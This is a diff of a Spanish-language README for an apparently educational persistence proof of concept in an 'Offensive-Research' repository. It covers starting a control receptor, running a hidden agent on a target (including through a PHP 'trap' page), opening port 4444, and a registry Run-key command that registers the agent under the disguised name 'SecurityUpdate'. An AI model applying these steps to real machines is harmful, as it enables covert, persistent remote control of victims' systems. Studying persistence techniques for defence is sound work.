

Before and after one commit to xalexlopez00/Offensive-Research, a Markdown page: Persistence-PoCs/Network-Shield-System/readme.md, 3 parts joined by grey strips. Shown at 96% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version.

```diff
--- a/Persistence-PoCs/Network-Shield-System/readme.md
+++ b/Persistence-PoCs/Network-Shield-System/readme.md
@@ -4,9 +4,6 @@
   </a>
   <a href="https://www.python.org/downloads/">
     <img src="https://img.shields.io/badge/Python-Descargar-ffd343?style=for-the-badge&logo=python&logoColor=black" alt="Python">
-  </a>
-  <a href="#-solución-de-problemas-troubleshooting">
-    <img src="https://img.shields.io/badge/Soporte-Errores_Comunes-f44336?style=for-the-badge" alt="Errores">
   </a>
 </p>
 
@@ -45,8 +42,6 @@ Este proyecto es una **Prueba de Concepto (PoC)** diseñada para estudiar el fun
 
 ## 📡 Ejecución y Pruebas
 
-Sigue este orden estricto para establecer el enlace:
-
 ### 🟢 Paso 1: Iniciar el Receptor (Master)
 Abre una terminal en la carpeta master/ y lanza el centro de control:
 **python receptor.py**
@@ -56,7 +51,7 @@ Abre una terminal en la carpeta master/ y lanza el centro de control:
 ### 🔵 Paso 2: Lanzar el Agente (Client)
 Ejecuta el script en el equipo objetivo para iniciar la conexión:
 * **Modo Manual**: python client/agente.py
-* **Modo Invisible**: Renombra a **agente.pyw** y ejecútalo.
+* **Modo Invisible**: Usa **agente.pyw** para ejecución sin consola.
 * **Simulación Web**: Accede a **http://localhost/Network-Shield-System/server/trampa.php**
 
 ---
@@ -64,19 +59,16 @@ Ejecuta el script en el equipo objetivo para iniciar la conexión:
 ## 🔐 Implementación de Persistencia
 
 ### 1️⃣ Instalación (Crear Registro)
-Envía este comando desde la terminal del receptor para registrar el agente:
 **reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "pythonw.exe C:\xampp\htdocs\Network-Shield-System\client\agente.pyw" /f**
 
 ---
 
 ### 2️⃣ Comprobación (Verificar Estado)
-Para confirmar que el registro se ha creado correctamente, ejecuta:
 **reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate"**
 
 ---
 
 ### 3️⃣ Eliminación (Limpieza del Sistema)
-Para desactivar el inicio automático y dejar el sistema limpio, ejecuta:
 **reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /f**
 
 ---
@@ -100,14 +92,9 @@ Para desactivar el inicio automático y dejar el sistema limpio, ejecuta:
 
 ## 🛠️ Solución de Problemas (Troubleshooting)
 
-* **❌ Error "Windows no puede encontrar el archivo python"**:
-  Este error ocurre al ejecutar `trampa.php`. Para solucionarlo, debes editar el código de tu archivo PHP y cambiar el comando por la ruta absoluta de Python.
-  *Ejemplo:* `exec("C:\\Users\\TuUsuario\\AppData\\Local\\Programs\\Python\\Python39\\python.exe ..\\client\\agente.py");`
+* **❌ Error de Python**: Si Windows no encuentra el archivo, el script `trampa.php` ahora lo busca automáticamente en las rutas comunes.
 * **🌐 ¿No conecta?**: Verifica que el puerto **4444** esté abierto en el Firewall de Windows.
 * **🗄️ ¿Error de SQL?**: Asegúrate de que el usuario de MySQL sea **root** y no tenga contraseña.
 
 ---
-
-<p align="center">
-  Desarrollado con ❤️ para fines de aprendizaje en Ciberseguridad
-</p>
+<p align="center">Desarrollado para aprendizaje en Ciberseguridad 🛡️</p>
```
